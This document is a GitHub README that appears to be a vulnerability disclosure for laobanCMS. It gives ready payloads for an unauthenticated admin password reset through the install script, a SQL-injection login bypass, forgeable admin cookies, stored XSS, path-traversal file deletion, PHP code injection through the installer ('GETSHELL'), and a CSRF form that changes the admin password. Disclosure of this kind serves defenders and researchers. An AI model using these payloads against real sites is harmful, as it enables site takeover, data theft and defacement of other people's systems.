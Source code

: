 # Vulnerabilities are owned by Patec HanGuang Lab
---------------------------------------
# `https://www.patec.cn/`
---------------------------------------

#  INFO_EXP 
---------------------------
Access to the URL：`/data/0/admin.txt`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B21.png)

# Reset Admin Password 
---------------------------
The problem is in `install/mysql_hy.php`, there is no verification of the installation conditions, first look at `install/index.php`.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE1.png)
The second line makes a judgment on the installation conditions. If there is an `install.txt` file, the installation action stops, prompting to delete the file and installing. it, but in `mysql_hy.php`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE2.png)
Can see that no judgment is made, but directly execute the statement, we continue to look at the executed file, according to the code can be seen under the `/data` directory.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE3.png)

Username password in `/data/0/admin_1.txt`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE4.png)

payload：`/install/mysql_hy.php?riqi=0&i=0`

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE5.png)

Use admin admin to log in.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE6.png)

# Unauthorized access
-------------------------------
The vulnerability is in line 66-70 in `/admin/login.php`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E8%B6%8A%E6%9D%831.png)

You can see that the cookie value is set after login, respectively id and guanliyuan, but this value can be forged, so there is an unauthorized violation.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E8%B6%8A%E6%9D%832.png)

# SQL injection
--------------------------------
The vulnerability is in line 61-65 in `/admin/login.php`.

![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A51.png)

Can see the SQL statement as

`Select * from admin where (guanliyuan='$guanliyuan' and mima='$mima') limit 1`

When the input user is `admin' or '1'='1`, the SQL statement is

`Select * from admin where (guanliyuan='admin' or '1'='1' and mima='xxxx') limit 1`

So you can log in successfully without a password.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A52.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E5%90%8E%E5%8F%B0%E7%99%BB%E5%BD%95%E5%A4%84SQL%E6%B3%A8%E5%85%A53.png)

# XSS1
--------------------------------
Visit `admin/liuyan.php`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XXS1-1.png)
POST payload: ` shuyu=lalala&neirong[]=5555<img src=1 onerror=alert(1)>&xxxxx[]=123123123`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XXS1-2.png)

# Del file
-------------------------------
POC：`/admin/pic.php?del=../install/install.txt`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%88%A0%E9%99%A41.png)
You can see that the `install.txt` file was successfully deleted and can be reinstalled.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%88%A0%E9%99%A42.png)

#GETSHELL
-------------------------------
Visit `/install`.

POC: `127.0.0.1');phpinfo();//&username=root&dbname=111111&password=11111111&shuju=2018-11-06&submit=%E4%B8%80%E9%94%AE%E5%AE%89%E8%A3%85`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/GETSHELL1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/GETSHELL2.png)

#XSS2
------------------------------
Visit `admin/type.php?id=1`
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS2-1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS2-2.png)

# XSS3
------------------------------
Visit `admin/art.php?typeid=1&gx=1`.
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS3-1.png)
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/XSS3-2.png)

# CSRF
-------------------------------
POC: 
```
<html>
  <body>
    <form action="http://www.a.com/admin/mima.php" method="POST">
      <input type="hidden" name="guanliyuan" value="123456" />
      <input type="hidden" name="mima" value="123456" />
      <input type="hidden" name="mima1" value="123456" />
      <input type="hidden" name="submit" value="%E4%BF%9D%E5%AD%98%E6%9B%B4%E6%94%B9" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![](https://github.com/AvaterXXX/laobanCMS/blob/master/images/CSRF1.png)












